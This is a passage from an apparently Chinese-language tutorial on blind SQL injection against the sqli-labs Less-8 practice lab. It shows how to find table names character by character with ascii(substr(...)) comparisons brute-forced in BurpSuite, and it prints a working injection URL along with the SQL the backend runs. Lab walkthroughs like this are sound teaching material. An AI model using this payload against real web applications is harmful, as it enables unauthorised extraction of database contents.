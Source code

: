 ![](盲注/photo/17.jpg)

#### 获取表名

方法同获取数据库名一样，截取字符串，转化为比较ASCII码，通过`BurpSuite`爆破得到表名。

下面为第一个表的第一位的URL及后端执行的SQL语句：

```
URL:
http://192.168.234.128/sqllab/Less-8/?id=1%27%20and%20ascii(substr((select%20table_name%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%20limit%200,1),1,1))=101%23
SQL:
SELECT * FROM users WHERE id='1' and ascii(substr((select table_name from Information_schema.tables where table_schema = database() limit 0,1),1,1))=101#' LIMIT 0,1
;
```
